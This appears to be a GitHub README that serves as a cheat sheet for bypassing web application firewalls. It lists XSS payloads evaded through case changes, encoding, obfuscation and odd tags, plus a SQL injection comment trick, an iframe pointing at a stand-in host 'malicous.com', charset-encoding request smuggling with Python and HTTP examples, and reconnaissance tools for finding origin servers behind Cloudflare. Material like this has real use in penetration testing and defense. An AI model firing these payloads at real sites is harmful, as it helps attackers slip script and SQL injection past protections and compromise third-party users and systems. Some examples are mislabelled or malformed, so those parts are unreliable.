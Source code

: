 # WAF-Bypass
🔥 Web application firewalls (WAFs) bypass


## Bypassing WAFs

### Regex Bypasses
Different techniques can be used to bypass the regex filters on the firewalls. Examples include alternating case, adding line breaks, and encoding payloads. Resources for the various bypasses can be found at PayloadsAllTheThings and OWASP.

```
<sCrIpT>alert(XSS)</sCriPt> #changing the case of the tag
<<script>alert(XSS)</script> #prepending an additional "<"
<script>alert(XSS) // #removing the closing tag
<script>alert`XSS`</script> #using backticks instead of parenetheses
java%0ascript:alert(1) #using encoded newline characters
<iframe src=http://malicous.com < #double open angle brackets
<STYLE>.classname{background-image:url("javascript:alert(XSS)");}</STYLE> #uncommon tags
<img/src=1/onerror=alert(0)> #bypass space filter by using / where a space is expected
<a aa aaa aaaa aaaaa aaaaaa aaaaaaa aaaaaaaa aaaaaaaaaa href=javascript:alert(1)>xss</a> #extra characters
```


#### Obfuscation
While obfuscation is a possible way to bypass regex, they have been divided into different sections to showcase more exclusively a selection of obfuscation techniques.



```
Function("ale"+"rt(1)")(); #using uncommon functions besides alert, console.log, and prompt
javascript:74163166147401571561541571411447514115414516216450615176 #octal encoding
<iframe src="javascript:alert(`xss`)"> #unicode encoding
/?id=1+un/**/ion+sel/**/ect+1,2,3-- #using comments in SQL query to break up statement
new Function`alt\`6\``; #using backticks instead of parentheses
data:text/html;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoMik+ #base64 encoding the javascript
%26%2397;lert(1) #using HTML encoding
<a src="%0Aj%0Aa%0Av%0Aa%0As%0Ac%0Ar%0Ai%0Ap%0At%0A%3Aconfirm(XSS)"> #Using Line Feed (LF) line breaks
<BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=confirm()> # use any chars that aren't letters, numbers, or encapsulation chars between event handler and equal sign (only works on Gecko engine)
```


## Charset Encoding
This technique involves modifying the Content-Type header to use a different charset (e.g. ibm500). A WAF that is not configured to detect malicious payloads in different encodings may not recognize the request as malicious. The charset encoding can be done in Python


```
# Charset encoding
application/x-www-form-urlencoded;charset=ibm037
multipart/form-data; charset=ibm037,boundary=blah
multipart/form-data; boundary=blah; charset=ibm037

##Python code
import urllib
s = 'payload'
print(urllib.parse.quote_plus(s.encode("IBM037")))

## Request example
GET / HTTP/1.1
Host: buggy
Content-Type: application/x-www-form-urlencoded; charset=ibm500
Content-Length: 61

%86%89%93%85%95%81%94%85=KKaKKa%C6%D3%C1%C7K%A3%A7%A3&x=L%A7n
```








## Tools
w3af — Web Application Attack and Audit Framework

wafw00f — Identify and fingerprint Web Application Firewall

BypassWAF – Bypass firewalls by abusing DNS history. This tool will search for old DNS A records and check if the server replies for that domain.

CloudFail – is a tactical reconnaissance tool that tries to find the original IP address behind the Cloudflare WAF.



